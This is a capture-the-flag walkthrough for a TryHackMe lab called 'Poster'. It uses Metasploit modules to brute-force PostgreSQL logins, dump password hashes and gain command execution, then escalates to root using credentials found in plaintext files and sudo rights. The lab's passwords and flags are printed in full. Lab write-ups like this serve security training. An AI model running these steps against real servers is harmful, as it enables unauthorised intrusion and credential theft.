

# Poster

---



---

# Enumeration


# Exploit

Use `msfconsole` to start **************Metasploit************** 

*After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the modules (starting with auxiliary)?*

Use `search postgresql` to find all Modules which is used to exploit the ********************postgresql******************** service


Type `info <index number>` (`info 7`) for more detail about that module

```
Description:
This module attempts to authenticate against a PostgreSQL instance using username and password combinations indicated by the USER_FILE, PASS_FILE, and USERPASS_FILE options. Note that passwords may be either plaintext or MD5 formatted hashes.
```

As the **************************Description**************************, the right answer for the question is the module number **7**

Set `options` as the following and start to exploit


After exploiting, we got the credential of user `postgres`


```tsx
msf6 auxiliary(scanner/postgres/postgres_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 10.10.27.250:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.10.27.250:5432 - Login Successful: postgres:password@template1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

*What is the full path of the module that allows you to execute commands with the proper user credentials (starting with auxiliary)?*

Type `back` to back to the previous state, search the modules again and use `info <number>` to view the detail of the module


```
Description:
This module will allow for simple SQL statements to be executed against a PostgreSQL instance given the appropriate credentials.
```

```
Name           Current Setting   Required  Description
----           ---------------   --------  -----------
SQL            select version()  no        The SQL query to execute
```

Use the module to get the version of the **********rdmbs**********


*What is the full path of the module that allows for dumping user hashes (starting with auxiliary)?*


```
Description:
This module extracts the usernames and encrypted password hashes from a Postgres server and stores them for later cracking.
```


*What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?*


```
Description:
This module imports a file local on the PostgreSQL Server into a temporary table, reads it, and then drops the temporary table. It requires PostgreSQL credentials with table CREATE privileges as well as read privileges to the target file.
```


*What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?*


```
Description:
Installations running Postgres 9.3 and above have functionality which allows for the superuser and users with 'pg_execute_server_program' to pipe to and from an external program using COPY. This allows arbitrary command execution as though you have console access. This module attempts to create a new table, then execute system commands in the context of copying the command output into the table. This module should work on all Postgres systems running version 9.3 and above. For Linux & OSX systems, target 1 is used with cmd payloads such as: cmd/unix/reverse_perl For Windows Systems, target 2 is used with powershell payloads such as: cmd/windows/powershell_reverse_tcp Alternativly target 3 can be used to execute generic commands, such as a web_delivery meterpreter powershell payload or other customised command.
```

# Gain Access


Now we are connected to the target machine → Navigate to `/home` → Read the `credentials.txt` file → Become `dark` user

```tsx
$ cd /home
$ ls
alison  dark
$ cd dark
$ ls
credentials.txt
$ cat credentials.txt
dark:qwerty1234#!hackme
```

However, the ********dark******** user does not have much permission for further exploiting the machine → Try to gain access of another one

# Privilege Escalation → alision

Navigate to `/var/www/html` where the ************config************ file of the database is usually placed → Read the `config.php` file → Get the user **********alison**********’s password

```tsx
dark@ubuntu:/$ cd /var/www/html
dark@ubuntu:/var/www/html$ ls -la
total 16
drwxr-xr-x 3 root   root   4096 Jul 28  2020 .
drwxr-xr-x 3 root   root   4096 Jul 28  2020 ..
-rwxrwxrwx 1 alison alison  123 Jul 28  2020 config.php
drwxr-xr-x 4 alison alison 4096 Jul 28  2020 poster
dark@ubuntu:/var/www/html$ cat config.php
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "p4ssw0rdS3cur3!#";
        $dbname = "mysudopassword";
?>
```

Escalate to user **************alision**************

```tsx
dark@ubuntu:/var/www/html$ su alison
Password: p4ssw0rdS3cur3!#

alison@ubuntu:/var/www/html$ id
uid=1000(alison) gid=1000(alison) groups=1000(alison),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

Get the flag inside ****************alison****************’s directory

```tsx
alison@ubuntu:/var/www/html$ cd /home/alison
alison@ubuntu:~$ cat user.txt
THM{postgresql_fa1l_conf1gurat1on}
```

# Privilege Escalation → Root

```tsx
alison@ubuntu:~$ sudo -l
[sudo] password for alison: p4ssw0rdS3cur3!#

Matching Defaults entries for alison on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

User `alison` could execute every commands on the machine with `root` privilege → Simply type `sudo -i` to become `root` → Get the flag in `/root/root.txt`

```tsx
alison@ubuntu:~$ sudo -i
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cd /root
root@ubuntu:~# ls -l  
total 4
-rw-r--r-- 1 root root 49 Jul 28  2020 root.txt
root@ubuntu:~# cat root.txt
**THM{c0ngrats_for_read_the_f1le_w1th_credent1als}**
```